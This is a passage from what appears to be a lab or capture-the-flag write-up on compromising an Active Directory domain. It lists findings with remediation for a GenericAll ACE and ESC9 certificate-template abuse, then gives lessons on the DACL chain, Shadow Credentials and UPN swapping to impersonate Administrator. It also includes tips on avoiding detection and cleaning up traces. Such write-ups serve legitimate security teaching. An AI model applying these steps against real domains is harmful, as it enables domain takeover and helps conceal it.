**Impact:** Any attacker controlling management_svc can immediately take over CA_OPERATOR and abuse any certificate authority permissions that account holds. Here that led directly to the ESC9 chain and full domain compromise.

**Remediation:**
- Remove the GenericAll ACE from management_svc over CA_OPERATOR
- Audit DACL relationships between service accounts using BloodHound
- Pay particular attention to any account with a name or group membership suggesting CA access - those accounts warrant zero unnecessary incoming permissions

---

### ESC9: Certificate Template Missing Security Extension

**Severity:** Critical
**CVSS Score:** 9.0

**Description:** The `CertifiedAuthentication` certificate template is configured with the `CT_FLAG_NO_SECURITY_EXTENSION` flag. Issued certificates do not embed the enrollee's `objectSid`. Combined with the ability to modify CA_OPERATOR's UPN via management_svc GenericAll, an attacker can impersonate any domain account including Administrator by temporarily setting the enrolling account's UPN to the target before requesting a certificate.

**Root Cause:** The certificate template was misconfigured to omit the security extension that binds a certificate to a specific account's SID. This removes the primary protection against certificate-based impersonation. The `CT_FLAG_NO_SECURITY_EXTENSION` flag should only be set when there is a documented operational requirement and should never be combined with broad enrollment rights.

**Impact:** Full domain compromise. An attacker with control over an enrolling account whose UPN they can modify can obtain a TGT and NTLM hash for any domain account including all Domain Admins, without cracking any passwords.

**Remediation:**
- Remove the `CT_FLAG_NO_SECURITY_EXTENSION` flag from the CertifiedAuthentication template's msPKI-Certificate-Name-Flag attribute to re-enable the SID security extension on issued certificates
- Restrict enrollment rights to only the accounts that have a documented operational need
- Run `certipy-ad find -vulnerable` regularly to audit all certificate templates
- Reference for all ESC cases and remediation: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

---

## What I Learned

**Kerberoasting as the first move cost me time.** BloodHound should be the first thing you run the moment you have credentials, not the third. The graph would have shown me immediately that the service account was the wrong target to try cracking - I would have gone straight to Shadow Credentials.

**The DACL chain has to execute in order.** WriteOwner - WriteDACL - WriteMembers unlocks exactly one capability per step and nothing more. I tried adding myself to the group before granting WriteMembers and got `NT_STATUS_ACCESS_DENIED`. Ownership of a group in AD does not automatically mean you can write its membership - you have to explicitly grant yourself that ACE through the DACL first.

**Shadow Credentials is the cleanest lateral movement technique I have used so far.** It does not touch the target account's password, generates no password change event, and persists through password rotations until someone specifically looks at the `msDS-KeyCredentialLink` attribute. From a detection standpoint, Event ID 5136 covers attribute changes but only if directory service auditing is enabled - and in most environments it is not.

**ESC9 requires getting the order of operations exactly right.** The UPN has to be changed before requesting the certificate, not after. The certificate embeds the UPN at request time - if you request first and change the UPN second, the cert is issued for ca_operator, not administrator. I also reverted the UPN immediately after requesting the cert and before authenticating. Leaving the UPN as "administrator" breaks CA_OPERATOR's normal functionality and creates an obvious artifact in AD attribute change logs. Clean up as you go.
